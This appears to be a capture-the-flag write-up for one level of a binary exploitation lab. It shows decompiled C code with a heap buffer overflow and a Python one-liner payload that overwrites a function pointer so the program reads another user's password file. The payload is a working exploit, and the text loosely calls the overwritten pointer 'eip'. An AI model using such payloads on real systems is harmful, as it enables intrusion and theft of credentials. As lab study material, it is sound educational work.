 ## Flag6 README: Finding Flag6


```C
void n(void)

{
  system("/bin/cat /home/user/level7/.pass");
  return;
}



void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)

{
  puts("Nope");
  return;
}



void main(undefined4 param_1,int param_2)

{
  char *__dest;
  code **ppcVar1;

  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}
```
So the idea is the same because when you write something more long that the size of the buffer you will write to the eip adress. So we can fill the buffer with \x90 (no-op) and then the adress of n. Let's try this.

adress of n =
$1 = {<text variable, no debug info>} 0x8048454 <n>

buffer is size 64 + the size to overflow 4 and then the 4 byte that we need to write to eip the adress in little endian.

64 + 4 + 4 = 72
and the adress = \x54\x84\x04\x08

so
``` bash
python -c 'print("\x90" * 72 + "\x54\x84\x04\x08")'
```
